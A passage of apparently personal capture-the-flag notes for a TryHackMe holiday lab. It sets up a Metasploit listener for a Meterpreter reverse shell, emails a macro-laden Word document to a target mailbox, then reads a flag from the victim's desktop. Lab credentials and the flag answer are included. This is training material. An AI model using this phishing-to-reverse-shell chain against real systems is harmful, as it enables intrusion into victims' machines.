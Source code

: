 listening for incoming connections
```
msfconsole

use multi/handler  # to handle incoming connections

# to ensure that our payload works with the payload 
# used when creating the malicious macro
set payload windows/meterpreter/reverse_tcp 

set LHOST 10.10.26.235  #  IP address of the attacker’s system

set LPORT 8888  #  port number you are going to listen on

show options

exploit


Started reverse TCP handler on 10.10.26.235:8888 

```

time to email victim
```
# inside attackbox browser >  http://10.10.215.99

- Email: `info@socnas.thm`
- Password: `MerryPhishMas!`

target email: marta@socmas.thm

# ctrl + h to unhide files
attach file: root/.msf4/local/msf.docm
```

listening terminal
```
meterpreter> cd c:/users/Administrator/Desktop
meterpreter> ls
meterpreter> cat flag.txt

```

```
What is the flag value inside the `flag.txt` file that’s located on the Administrator’s desktop?

THM{PHISHING_CHRISTMAS}
```


## day 11:  WPA wifi

Wi-Fi networks around us. This list comprises the access points (often the routers) that are broadcasting Wi-Fi signals with a unique **SSID** (network name)
